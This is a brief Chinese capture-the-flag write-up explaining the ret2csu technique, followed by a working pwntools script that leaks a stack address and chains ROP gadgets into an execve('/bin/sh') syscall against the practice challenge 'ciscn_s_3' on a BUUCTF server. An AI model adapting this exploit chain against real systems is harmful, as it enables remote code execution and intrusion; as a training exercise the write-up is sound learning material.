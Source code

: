 一般的程序都会调用libc中的函数，而此函数便是来将libc初始化的，故此函数几乎是每一个程序所必备的。一般可以用来让`rdx=0`

## 32位

32位采用`int 80`指令调用底层

## 64位

![image-20240513212502274](image/image-20240513212502274.png)

可以看到`pop r13`和`mov rdx,r13`只要把`r13=0`，就可以把`rdx=0`,64位采用`syscall`指令

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',28262)
#p=process('./ciscn_s_3')
elf=ELF('./ciscn_s_3')
pop_rdi=0x4005a3	#rdi = 0
pop_rsi_r15=0x4005a1	#rsi = 0
pop_rdx_6=0x40059A	#csu第一段函数
mov_rdx_0=0x400580	#csu第二段函数，里面有call r12的函数
mov_rax_0x3b=0x4004E2	#程序给的系统调用函数,mov rax,0x3b ret
syscall=0x400517
vuln_addr=elf.sym['vuln']

payload1=flat(b'/bin/sh\x00',cyclic(0x8),p64(vuln_addr))#由于没有pop rbp，直接覆盖到old_rbp就可以，所有少了8字节
p.send(payload1)
p.recv(0x20)
bin_sh=u64(p.recv(8))-0x118 #泄露/bin/sh的真实地址
print(hex(bin_sh))

payload2=flat(b'/bin/sh\x00',cyclic(0x8),p64(pop_rdx_6),0,0,p64(bin_sh+0x50),0,0,0,p64(mov_rdx_0))
#bin_sh+0x50是对于下面pop_rdi=0x4005a3地址的偏移，call的push下一地址会和执行的pop_rdi相互抵消了，所有实际上就是绕过了call函数，继续执行下面的函数
payload2+=flat(p64(pop_rdi),p64(bin_sh),p64(pop_rsi_r15),0,0,p64(mov_rax_0x3b),p64(syscall))
p.send(payload2)
p.interactive()
```
